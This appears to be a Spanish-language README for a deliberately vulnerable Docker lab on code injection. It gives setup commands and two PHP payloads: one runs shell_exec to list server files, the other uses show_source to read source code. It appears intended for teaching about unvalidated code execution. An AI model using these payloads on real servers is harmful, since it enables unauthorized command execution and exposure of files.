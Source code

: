 # Code Injection

Descargar y Montar el servidor con Docker:

```bash
git clone https://github.com/IngenieroRicardo/CodeInjection
cd CodeInjection
sudo chmod -R a+rwx *
sudo docker-compose up
firefox localhost:8181
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente
